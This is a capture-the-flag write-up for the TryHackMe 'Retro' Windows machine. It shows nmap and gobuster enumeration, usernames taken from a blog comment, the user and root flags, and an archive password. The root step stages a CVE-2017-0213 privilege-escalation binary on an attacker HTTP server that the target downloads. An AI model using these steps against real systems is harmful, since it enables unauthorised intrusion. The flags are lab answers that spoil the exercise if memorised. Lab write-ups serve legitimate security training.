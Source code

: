 # Retro

New high score!

[Retro](https://tryhackme.com/room/retro)

## Chủ đề của

- Network Enumeration
- Web Enumeration
- Web Poking
- CVE-2017-0213 - Windows COM Aggregate Marshaler/IRemUnknown2

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

---

There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.

```
bibo318@parrot:~/CTFs/tryhackme/Retro$ sudo nmap -A -p- -sC -sV -Pn 10.10.222.128
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 09:46 CEST
Nmap scan report for 10.10.222.128
Host is up (0.039s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-04T07:51:25+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-03T07:44:58
|_Not valid after:  2021-04-04T07:44:58
|_ssl-date: 2020-10-04T07:51:26+00:00; +3m07s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m06s, deviation: 0s, median: 3m06s

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   38.93 ms 10.8.0.1
2   38.96 ms 10.10.222.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.01 seconds
```

1. A web server is running on the target. What is the hidden directory which the website lives on?

```
bibo318@parrot:~/CTFs/tryhackme/Retro$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.222.128
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.222.128
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/04 09:50:53 Starting gobuster
===============================================================
/retro (Status: 301)
Progress: 31140 / 220561 (14.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/04 09:53:15 Finished
===============================================================
```

`/retro`

- [One Comment on “Ready Player One”](http://10.10.222.128/retro/index.php/2019/12/09/ready-player-one/#comment-2)

![](2020-10-04_09-54.png)

- `wade`
- `parzival`

2. user.txt

![](2020-10-04_09-57.png)

`3b99fbdc6d430bfb51c72c651a261927`

3. root.txt

```
bibo318@parrot:~/CTFs/tryhackme/Retro$ unzip CVE-2017-0213_x64.zip
Archive:  CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe
bibo318@parrot:~/CTFs/tryhackme/Retro$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET / HTTP/1.1" 200 -
10.10.222.128 - - [04/Oct/2020 10:11:22] code 404, message File not found
10.10.222.128 - - [04/Oct/2020 10:11:22] "GET /favicon.ico HTTP/1.1" 404 -
10.10.222.128 - - [04/Oct/2020 10:11:34] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

![](2020-10-04_10-14.png)

`7958b569565d7bd88d10c6f22d1c4063`
